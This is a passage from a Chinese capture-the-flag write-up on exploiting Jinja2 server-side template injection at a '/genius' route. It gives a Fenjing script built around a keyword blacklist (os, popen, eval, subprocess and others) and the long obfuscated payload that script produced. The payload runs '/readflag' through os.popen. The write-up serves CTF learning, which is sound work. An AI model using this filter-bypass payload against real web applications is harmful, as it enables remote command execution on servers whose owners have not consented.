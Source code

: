 最后访问`/genius`路由打SSTI
![](https://img-blog.csdnimg.cn/1f62ab0bdbce4e7d8a7a75ea713155b8.png)

这里强烈推荐一个工具：[https://github.com/Marven11/Fenjing/](https://github.com/Marven11/Fenjing/)，它会帮我们找到绕过黑名单的payload
发现已经有师傅问过了：[https://github.com/Marven11/Fenjing/issues/4](https://github.com/Marven11/Fenjing/issues/4)

生成payload的脚本如下：
```python
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = ['_', "'", '"', '.', 'system', 'os', 'eval', 'exec', 'popen', 'subprocess',
                    'posix', 'builtins', 'namespace','open', 'read', '\\', 'self', 'mro', 'base',
                    'global', 'init', '/','00', 'chr', 'value', 'get', "url", 'pop', 'import',
                    'include','request', '{{', '}}', '"', 'config','=']
    return all(word not in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "/readflag")

    print(f"{shell_payload}")
```

脚本生成得到
```
{%print(((((((lipsum[(lipsum|escape|batch(22)|list|first|last)*2+(((((lipsum,)|map(((lipsum|string|list|batch(3)|first|last)~(lipsum|string|list|batch(15)|first|last)~(lipsum|string|list|batch(20)|first|last)~(x|pprint|list|batch(4)|first|last)~(x|pprint|list|batch(2)|first|last)~(lipsum|string|list|batch(5)|first|last)~(lipsum|string|list|batch(8)|first|last)~(x|pprint|list|batch(3)|first|last)~(x|pprint|list|batch(4)|first|last)))|list|first|first)+(lipsum|escape|batch(8)|first|last))*7)%(103,108,111,98,97,108,115))+(lipsum|escape|batch(22)|list|first|last)*2])[(((((lipsum,)|map(((lipsum|string|list|batch(3)|first|last)~(lipsum|string|list|batch(15)|first|last)~(lipsum|string|list|batch(20)|first|last)~(x|pprint|list|batch(4)|first|last)~(x|pprint|list|batch(2)|first|last)~(lipsum|string|list|batch(5)|first|last)~(lipsum|string|list|batch(8)|first|last)~(x|pprint|list|batch(3)|first|last)~(x|pprint|list|batch(4)|first|last)))|list|first|first)+(lipsum|escape|batch(8)|first|last))*12)%(95,95,98,117,105,108,116,105,110,115,95,95))])[(((((lipsum,)|map(((lipsum|string|list|batch(3)|first|last)~(lipsum|string|list|batch(15)|first|last)~(lipsum|string|list|batch(20)|first|last)~(x|pprint|list|batch(4)|first|last)~(x|pprint|list|batch(2)|first|last)~(lipsum|string|list|batch(5)|first|last)~(lipsum|string|list|batch(8)|first|last)~(x|pprint|list|batch(3)|first|last)~(x|pprint|list|batch(4)|first|last)))|list|first|first)+(lipsum|escape|batch(8)|first|last))*4)%(101,118,97,108))])((((((lipsum,)|map(((lipsum|string|list|batch(3)|first|last)~(lipsum|string|list|batch(15)|first|last)~(lipsum|string|list|batch(20)|first|last)~(x|pprint|list|batch(4)|first|last)~(x|pprint|list|batch(2)|first|last)~(lipsum|string|list|batch(5)|first|last)~(lipsum|string|list|batch(8)|first|last)~(x|pprint|list|batch(3)|first|last)~(x|pprint|list|batch(4)|first|last)))|list|first|first)+(lipsum|escape|batch(8)|first|last))*35)%(95,95,105,109,112,111,114,116,95,95,40,39,111,115,39,41,46,112,111,112,101,110,40,39,47,114,101,97,0x64,102,108,97,103,39,41))))[(((((lipsum,)|map(((lipsum|string|list|batch(3)|first|last)~(lipsum|string|list|batch(15)|first|last)~(lipsum|string|list|batch(20)|first|last)~(x|pprint|list|batch(4)|first|last)~(x|pprint|list|batch(2)|first|last)~(lipsum|string|list|batch(5)|first|last)~(lipsum|string|list|batch(8)|first|last)~(x|pprint|list|batch(3)|first|last)~(x|pprint|list|batch(4)|first|last)))|list|first|first)+(lipsum|escape|batch(8)|first|last))*4)%(114,101,97,0x64))])()))%}
```
url编码传入即可得到flag
![](https://img-blog.csdnimg.cn/259f045b6e6e44f6b68c667f8595a2a7.png)
